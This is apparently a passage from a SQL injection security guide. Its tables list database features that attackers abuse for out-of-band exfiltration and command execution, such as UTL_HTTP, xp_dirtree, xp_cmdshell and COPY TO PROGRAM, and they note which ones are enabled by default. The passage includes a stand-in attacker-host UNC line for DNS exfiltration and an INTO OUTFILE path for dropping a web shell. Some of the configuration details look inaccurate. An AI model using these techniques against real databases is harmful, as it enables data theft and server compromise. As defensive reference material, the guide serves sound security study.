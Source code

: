 ### **3. Oracle Database**

| PL/SQL Package | Description |
| --- | --- |
| `UTL_HTTP.REQUEST(url)` | Sends an HTTP request to the specified URL |
| `HTTPURITYPE.getCLOB()` | Fetches content from HTTP and stores it in a variable |
| `UTL_INADDR.GET_HOST_ADDRESS()` | May trigger a DNS lookup |
| `DBMS_LDAP.INIT()` | Sends an LDAP query → can be abused for DNS exfiltration |

### **4. MySQL / MariaDB**

| Feature | Description |
| --- | --- |
| `LOAD_FILE('\\attacker.com\abc')` | Sends a DNS request to a UNC path |
| `INTO OUTFILE '/var/www/html/shell.php'` | Writes a shell to the web directory |
| `sys_exec()` (MariaDB) | Executes system commands (if plugin is enabled) |

In features, some is enable default some can enable by administrator.

| **DBMS** | **Dangerous Feature** | **Enabled by Default?** | **Security Notes** |
| --- | --- | --- | --- |
| **MSSQL** | `xp_cmdshell` | ❌ **DISABLED** | Must be manually enabled via `sp_configure` |
|  | `xp_dirtree` | ✅ **ENABLED** | Sends DNS via UNC path, usually not blocked |
|  | `openrowset()` | ✅ **ENABLED** | May be blocked depending on configuration |
|  | `sp_oacreate` | ❌ **DISABLED** | Requires COM automation to be enabled |
| **PostgreSQL** | `COPY TO PROGRAM` | ❌ **DISABLED** | Enabled only if `superuser` and `config_allow_copy_program = on` |
|  | `lo_export`, `lo_import` | ✅ **ENABLED** | Requires elevated privileges |
|  | `dblink` | ❌ **DISABLED** | Requires installing the `dblink` extension |
| **Oracle** | `UTL_HTTP` | ✅ **ENABLED** (with limits) | Available by default but requires `EXECUTE` privilege |
|  | `HTTPURITYPE` | ✅ **ENABLED** | Often blocked by outbound firewall |
|  | `DBMS_LDAP` | ✅ **ENABLED** | Requires specific privileges and configuration |
| **MySQL** | `LOAD_FILE()` | ✅ **ENABLED** | As long as file is in accessible filesystem; UNC paths may trigger DNS |
|  | `INTO OUTFILE` | ✅ **ENABLED** | Requires write permissions; can be used to drop web shells |
| **MariaDB** | `sys_exec()` / `sys_eval()` | ❌ **DISABLED** | Requires enabling `sql_shell` or `userstat` plugin |

---

# 9. Prevent SQL injection
